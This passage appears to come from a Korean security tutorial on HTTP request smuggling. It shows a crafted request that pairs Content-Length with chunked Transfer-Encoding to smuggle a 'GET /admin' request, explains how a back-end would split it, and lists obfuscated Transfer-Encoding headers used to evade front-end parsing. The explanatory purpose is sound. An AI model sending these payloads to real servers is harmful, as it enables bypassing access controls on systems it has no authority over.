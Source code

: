 위 그림을 좀 더 상세한 예제로 살펴보자. 아래와 같은 HTTP Header로 공격자가 Front-End Server에 공격을 요청한다고 가정해 보자.

```
POST / HTTP/1.1
HOST: vulnerable.com
Content-Type: text/plain
Content-Length: 43
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Foo: X
```

만약 HTTP Request Smuggling 공격이 통한다면 Back-End Server는 아래와 같은 2개의 요청으로 인식하게 된다.

```
POST / HTTP/1.1
HOST: vulnerable.com
Content-Type: text/plain
Content-Length: 43
Transfer-Encoding: chunked

0
```

```
GET /admin HTTP/1.1
Foo: X
```

하지만 이 방식은 리얼 월드에서 사용하기에는 큰 무리가 있다. 바로 Content-Length와 Transfer-Encoding은 함께 사용할 수 없다는 이유 때문이다. 

```
If a message is received with both a Transfer-Encoding header field and a Content-Length 

header field, the latter MUST be ignored.
```

RFC 2616에 따르면. Content-Length와 Transfer-Encoding이 함께 사용된다면, 후자에 오는 것이 무시된다고 한다. 

그러면 어떻게 하면 될까? Transfer-Encoding: chunked를 은닉해서 통신 구간에서 알아차리지 못하게 하고, Front-End 혹은 Back-End가 이를 인식하게 되게 하면 된다. 아래 방법들은 몇몇 서버들이 인식하는 Transfer-Encoding 방식이다. (참고: Transfer-Encoding을 사용할 때 Body에 명시하는 chunk의 길이는 16진수다)

```
Transfer-Encoding: xchunked
```

```
Transfer-Encoding : chunked
```

```
Transfer-Encoding: chunked
Transfer-Encoding: x
```
